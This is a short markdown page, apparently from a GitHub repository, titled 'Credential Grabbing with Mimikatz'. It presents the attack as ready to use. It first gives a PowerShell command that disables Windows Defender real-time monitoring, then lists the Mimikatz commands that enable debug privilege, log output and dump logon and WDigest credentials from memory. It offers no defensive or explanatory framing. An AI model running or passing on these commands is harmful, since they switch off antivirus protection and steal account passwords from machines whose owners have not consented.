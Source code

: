 # Credential Grabbing with Mimikatz

**If you find that this attack is not working, you may need to disable Windows Defender. This can be done by opening PowerShell as an Administrator and running the following command:**
`Set-MpPreference -DisableRealtimeMonitoring $true`

This attack uses Mimikatz to grab credentials via the command line. The Mimikatz commands are: 
- `privilege::debug`
- `log log.txt`
- `sekurlsa::logonpasswords`
- `sekurlsa::wdigest`